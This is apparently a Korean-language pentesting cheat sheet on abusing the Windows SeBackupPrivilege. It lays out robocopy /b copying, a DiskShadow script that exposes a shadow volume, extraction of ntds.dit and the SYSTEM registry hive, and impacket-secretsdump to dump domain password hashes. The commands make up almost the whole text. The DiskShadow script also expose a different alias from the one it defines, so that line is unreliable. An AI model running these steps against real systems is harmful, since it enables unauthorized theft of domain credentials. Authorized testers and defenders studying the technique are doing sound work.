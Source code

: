 ### robocopy
```
# C:\Users에서
robocopy /b C:\Users\Administrator\Desktop\ C:\Users\svc_backup
```

### DiskShadow
```
# 백업권한으로 권한상승이 가능할 때
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
```
```
vi ruang.dsh

set context persistent nowriters
add volume c: alias ruang
create
expose %raj% z:
```
```
# unix를 dos환경으로 변경하여 dsh 실행
unix2dos ruang.dsh

# 공격대상 윈도우에서
mkdir C:\temp
upload ruang.dsh

diskshadow /s ruang.dsh
```

### ntds
```
# C에서 Z에 있는 ntds 복사해서 가져옴
robocopy /b z:/windows/ntds . ntds.dit
```

### secredtsdump
```
# 크래킹하려면 registry도 필요함
reg save hklm\system system
download ntds.dit
download system

impacket-secretsdump -ntds ntds.dit -system system LOCAL
```



<br>

---

## Active Directory
